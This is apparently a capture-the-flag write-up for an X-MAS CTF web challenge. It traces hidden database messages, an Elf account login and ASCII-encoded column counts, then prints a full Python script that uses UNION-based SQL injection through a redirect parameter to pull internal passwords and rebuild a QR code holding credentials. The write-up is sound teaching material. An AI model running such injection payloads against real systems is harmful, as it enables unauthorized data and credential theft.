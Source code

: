 # Santa's Shady Toy Manufacturing Business Part 2 (web 984)
A much much harder challenge than the previous.

To start off, we dig around the database and discover that the `toys_for_sale` database contains 2 hidden "staging" messages in a column: one message is for toys with exposed=0, and the other is for exposed toys. 

```
THIS IS A HIDDEN STAGING MESSAGE.
INTERNS must go read the staging message for the unexposed toys.

IF you are new to the job, welcome! Get up to speed and report daily to your assigned Elf.
OTHERWISE for older interns, you must read staging data from the other table (toys_for_sale2). The table is pretty big, so make sure you are using a terminal with many lines.
```

The `toys_for_sale2` table contains the staging message spread out accross `staging_info_part_#_chunk` columns. Putting them back together sorting by toy ID and range gives the following message:

```
THIS IS A HIDDEN STAGING MESSAGE [COM_INTERNS_LOW]

INTERNS, Temporarily use the Elf account to access the deep database we will work with for this month.
```

If we check the routines in the database, one returns the password hash for an account - calling it with "Elf" as a paramater gives that password hash. If we log into the website as Elf, we get a session cookie as the Elf user on the database.

The "Elf" database is very different. If we dump the tables, we find many `toy_manufacturing_district_ID#_ORDER_ID#_#` tables with a lot of columns and sometimes rows. We also find a table giving us a message:

```
This db is insane, what the hell is going on in here?? I have been exploring for a bit, the advice I can give you is that counting the columns can be useful I guess. Also check if the tables have something in them when doing that. After doing that remember what quick response stands for. - A fellow intern -
```

This hints to check the column numbers of the toy databases, which correspond to ascii values. If we take the ASCII values of the numbers of columns for each table with data ordered by order ID number, we get this message:

```
THIS IS A HIDDEN STAGING MESSAGE [COM_ELVES@DEPT_0x2F]

In case you haven't seen the post-it note on your desk, the function GET_QUICK_RESPONSE_MAPPING takes parameters "LOADMAP1211113128ch", YOUR_DEPARTMENT_ID, X, Y, YOUR_DEPARTMENT_PASSWORD. You can fetch the password from the table with internal passwords. We've only tested this function on our local servers, so if you're not from this department, please don't try to run that function.
```

This tells us to call the `GET_QUICK_RESPONSE_MAPPING` routine to progress next. The message tells us the target department is 0x2F. Based on the name we can guess that we are supposed to get a QR code.

When we try calling the function, we find it returns a pair of numbers for each x,y coordinate. As it turns out, there is another table `toy_quick_response` which contains columns `x0`..`x30` with values of 0 and 1. This appears to be a lookup table to the output of this function.

After messing around, I found out that the `internal_passwords`, `toy_quick_response`, and output of the `GET_QUICK_RESPONSE_MAPPING` function constantly change - so we need to obtain all of our data at once. The following script dumps that data and parses a QR code out of it:

```py
import requests
import sys
import time
import json
with open("cookies.json") as f:
    ck = json.load(f)

def getItem(i):
    while True:
        try:
            r = requests.post(url, data={"goto": '\'AND 1=2 UNION SELECT (SELECT pass FROM internal_passwords LIMIT 1 OFFSET %d) UNION SELECT (1) WHERE \'' % i}, cookies=ck, allow_redirects=False).headers["Location"][1:-5]
            break
        except KeyError:
            time.sleep(0.2)
            pass
    return r

url="http://challs.xmas.htsp.ro:3001/redirect.php"
#eq = "' AND 1=2 UNION SELECT (SELECT CONCAT_WS('|'%s)) UNION SELECT (1) WHERE '"
xn = []
for i in range(31):
    xn.append("`x" + str(i) + "`")
xn = ",".join(xn)
#print("SELECT GROUP_CONCAT(%s) FROM toy_quick_response" % xn)
#exit()
eq = "' AND 1=2 UNION SELECT (SELECT CONCAT_WS('|', %s ,c) FROM (SELECT GROUP_CONCAT(" +xn+ ") as c FROM toy_quick_response) z) UNION SELECT (1) WHERE '"
from collections import defaultdict
from tqdm import tqdm
import json
dept = 0x2f
passw = getItem(47)
print(passw)
m = []
for _ in range(31):
    m.append(["Z"]*31)
vs = []
for x in range(31):
    for y in range(31):
        vs.append("GET_QUICK_RESPONSE_MAPPING('LOADMAP1211113128ch', %d, %d, %d, '%s')" % (dept, x,y, passw))
while True:
    try:
        print(len(eq % ",".join(vs)))
        qry = eq % ",".join(vs)
        #print(qry)
        #exit()
        r = requests.post(url, data={"goto": eq % ",".join(vs)}, cookies=ck, allow_redirects=False).headers["Location"][1:-5]
        break
    except KeyError:
        #time.sleep(0.2)
        pass

l = r.split("|")
opx = [list(s) for s in l[-1].split(",")]
print(opx)
l = l[:-1]
for x in range(31):
    for y in range(31):
        xx, yy = l[x*31+y].split(",")
        xx = int(xx)
        yy = int(yy)
        m[xx][yy] = opx[y][x]

from PIL import Image
img = Image.new('RGB', (31, 31))
for x in range(31):
    for y in range(31):
        print(m[x][y], end="")
        if m[x][y] == '1':
            img.putpixel((x, y), (155,155,55))
    print()

img.save("qr%d.png" % dept)
print(dept)
```

Running this code outputs the following:

![qr](qr47.png)

This QR code contains the credentials to another user login. Logging in gives us the Part 2 flag on the website and access to part 3.

## Flag
X-MAS{H4lfw4y_th3r3_thr0ugh_7h15_t4ngly_db_121231cadxf1x]
